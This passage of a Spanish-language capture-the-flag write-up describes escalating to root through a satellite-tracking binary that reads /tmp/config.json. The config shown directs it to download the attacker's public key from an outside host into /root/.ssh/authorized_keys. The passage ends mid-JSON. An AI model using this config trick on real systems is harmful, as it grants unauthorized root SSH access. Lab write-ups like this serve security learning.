 ```bash
jovian@jupiter:~$ /usr/local/bin/sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
jovian@jupiter:~$ 
```
{: .nolineno}

Y al revisar el contenido legible del binario con el comando `strings`, se puede notar que hace falta crear el archivo de configuración en la ruta **/tmp/config.json**.

```bash
jovian@jupiter:~$ strings /usr/local/bin/sattrack | grep config
/tmp/config.json
tleroot not defined in config
updatePerdiod not defined in config
```
{: .nolineno}

Dentro del [repositorio](https://github.com/arf20/arftracksat) repositorio se encuentra una detallada explicación de cómo debe estructurarse el archivo.


```bash
Value           Description
tleroot:        Location to get and load TLE files, must be writable by the user,
                note: this default will delete TLEs after reboot. Modification advised
tlefile:        TLE filename to load from tleroot
tlesources:     A array of URLs to curl get into tleroot
updatePerdiod:  Screen update period in milliseconds
station:        Station data
  name:           Name
  lat:            Geodetic latitude
  lon:            East longitude
  hgt:            Altitude (height) over sea level in meters
show:           Array to only show sats by name. Leave empty to show all (possibly not good performing)
columns:        Sat data to show in columns in order
                name, azel, dis, geo, tab, pos, vel

```
{: file="/tmp/config.json"}


El **ataque** consiste en poder ejecutarlo como **root** para consumir un archivo desde un servidor externo y guardarlo en una carpeta específica. En este caso, se toma la **llave pública** del atacante y se guarda en el directorio **/root/.ssh/** con el nombre **authorized_keys**. Con esto, se puede obtener acceso como root a la máquina mediante una conexión **SSH**.

> Después de algunas pruebas, me di cuenta de que para que funcione, el archivo que se consume y el que se crea deben tener el mismo nombre.
{: .prompt-tip}

```json
{
	"tleroot": "/root/.ssh/",
	"tlefile": "authorized_keys",
	"mapfile": "/usr/local/share/arftracksat/map.json",
	"texturefile": "/usr/local/share/arftracksat/earth.png",
	
	"tlesources": [
		"http://10.10.15.135:8081/authorized_keys"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
```